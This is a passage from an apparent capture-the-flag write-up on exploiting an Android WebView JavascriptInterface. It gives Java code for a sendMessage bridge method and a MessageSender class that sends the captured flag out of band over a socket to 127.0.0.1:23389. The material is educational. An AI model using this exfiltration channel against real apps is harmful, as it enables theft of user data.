 This ended up showing the message in the console, but sometimes it crashed (I still do not know the reason if this behavior), so it wasn’t reliable. I wanted to find a more stable way to do it.

One of the ways that I found to do this was sending the content in an out of band way. There were lots of alternatives, but I decided to use sockets. So in this case in order to make this work, I needed two components. The first one was a Java class that sends the flag over a socket. This was done in the following way:

I added a method in the JInterfaceInternal class:

```
public class JInterfaceInternal {

    @JavascriptInterface
    public void sendMessage(String toast) {
        MessageSender messageSender = new MessageSender(toast);
    }


```

and then created the MessageSender class that opens a socket and sends a message over there:

```
public class MessageSender {


    protected static String SERVER_IP = "127.0.0.1";
    protected static int SERVER_PORT = 23389;
    private String messageToSend = null;
    private PrintWriter output;
    private BufferedReader input;
    public MessageSender(String messageToSend) {

        this.messageToSend = messageToSend;
        Thread thread1 = new Thread(new Thread1());
        thread1.start();
    }

    class Thread1 implements Runnable {
        public void run() {
            Socket socket;
            try {
                socket = new Socket(MessageSender.SERVER_IP, MessageSender.SERVER_PORT);
                output = new PrintWriter(socket.getOutputStream());
                input = new BufferedReader(new InputStreamReader(socket.getInputStream()));
                new Thread(new Thread3(messageToSend)).start();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    class Thread3 implements Runnable {
        private String message;
        Thread3(String message) {
            this.message = message;
        }
        @Override
        public void run() {
            output.write(message);
            output.flush();
        }
    }
}

```